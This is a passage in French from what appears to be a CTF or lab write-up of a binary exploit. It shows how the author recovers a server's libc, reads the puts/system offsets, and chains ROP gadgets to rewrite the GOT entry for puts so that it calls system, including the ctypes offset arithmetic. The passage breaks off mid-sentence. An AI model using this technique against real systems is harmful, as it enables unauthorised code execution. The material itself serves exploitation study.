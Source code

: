 Pour commencer, il nous faut récupérer la libc du système. Avec les informations sur l'OS que j'ai récupéré plus tôt je peux retrouver le path de la libc :

[Debian -- Résultat de la recherche du contenu du paquet -- libc.so.6](https://packages.debian.org/search?suite=stretch&arch=i386&mode=filename&searchon=contents&keywords=libc.so.6)

Je peux alors récupérer la libc auprès du serveur web en lui demandant le fichier `/lib/i386-linux-gnu/libc.so.6`.

La commande `nm` me permet de voir les offsets des deux fonctions :

```console
$ nm -D libc.so | grep -e "puts\|system"
0005e2a0 W fputs
00068230 W fputs_unlocked
0005e2a0 T _IO_fputs
0005f880 T _IO_puts
0003ab40 T __libc_system
0005f880 W puts
000edb90 T putsgent
000ec450 T putspent
00113d70 T svcerr_systemerr
0003ab40 W system
```

Une fois chargé en mémoire, les décalages entre les deux fonctions sont préservées. Comme l'adresse de `puts` sera stockée à une adresse fixe dans la `GOT`, il me suffit de rajouter à cette adresse le décalage nécessaire et faire ainsi en sorte qu'un appel à `puts` appel en réalité `system`.

Pour faire cette opération j'ai besoin d'un gadget dans le binaire et pour être franc, il n'y a pas grand choix :

```nasm
0x08048dd7 : add dword ptr [eax + 0x5bf8658d], edx ; pop edi ; pop ebp ; ret
```

Il faut donc faire des calculs plutôt simples, mais assez contraignant.

Supposons qu'on veuille écrire à l'adresse `0x0804b03c`. Il faut donc que `eax` corresponde à la valeur `0x0804b03c - 0x5bf8658d`. On ne peut pas le faire directement en Python, car on obtient un résultat négatif, mais c'est possible avec le module `ctypes` :

```python
>>> hex(ctypes.c_uint32(0x0804b03c - 0x5bf8658d).value)
'0xac0c4aaf'
```

Les résultats négatifs sont une aubaine dans notre cas, car on ne peut pas passer des octets nuls (donc il faut des valeurs non signées fortes).

Il nous faut aussi un ou plusieurs gadgets pour définir les registres utilisés dans l'addition. J'en trouve deux qui correspondent :

```nasm
0x08048e13 : pop edx ; ret
0x08048e20 : pop eax ; ret
```

Avec tout ça on peut écraser l'adresse de `puts` car on a :

